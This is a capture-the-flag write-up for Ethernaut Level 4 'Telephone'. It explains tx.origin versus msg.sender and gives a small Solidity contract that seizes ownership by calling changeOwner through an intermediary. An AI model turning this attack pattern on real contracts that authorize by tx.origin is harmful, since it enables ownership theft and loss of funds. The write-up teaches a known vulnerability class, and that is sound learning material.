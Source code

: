 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/4-telephone.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 4 - Telephone</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
  - [Example Explanation](#example-explanation)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [Reference:](#reference)

## Objectif

<img src="../assets/requirements/4-telephone-requirements.webp" width="800px"/>

## The hack

The goal here is to understand the difference between `msg.sender` and `tx.origin`. The `Telephone` contract is vulnerable to a phishing attack because it uses `tx.origin` to check who initiated the transaction.

- `tx.origin` is the original sender of the transaction, the first account that signed the transaction. It can either be an EOA (Externally Owned Account) or an [ERC-4337](https://eips.ethereum.org/EIPS/eip-4337) contract. It is a static value that does not change, regardless of the number of calls in the stack (think nested transactions).
- `msg.sender` is the address that initiated the latest call in the transaction. It can change if the transaction is a call from another contract for instance. So if there are multiple calls following each other in the same transaction, `msg.sender` will always be the address that initiated the latest call, and its value will change with every new call made within this transaction.

### Example Explanation

- **Direct Call (EOA to Contract)**

  - `EOA => Contract` | `tx.origin === msg.sender === EOA`

- **Indirect Call (EOA through Contract1 to Contract2)**
  - `EOA => Contract1 => Contract2`
    - For `Contract1`: `tx.origin === msg.sender === EOA`
    - For `Contract2`: `tx.origin === EOA`, `msg.sender === Contract1`

In other words, we simply have to deploy an intermediary contract to bypass `tx.origin != msg.sender`. `tx.origin` will be our EOA while `msg.sender` will be the address of the intermediary contract.

## Solution

Write another contract that calls the deployed Telephone contract and passes in the new owner's address

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract MissedCall {
    address immutable telephone;

    constructor(address _telephone) {
        telephone = _telephone;
    }

    function attack() public {
        ITelephone(telephone).changeOwner(msg.sender);
    }
}
```

## Takeaway

- Usage of `tx.origin` should be done with care, as it can lead to phishing attacks;
- Useful in certain cases where you want EOA accounts to call a function for example

## Reference:

https://solidity-by-example.org/hacks/phishing-with-tx-origin/

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
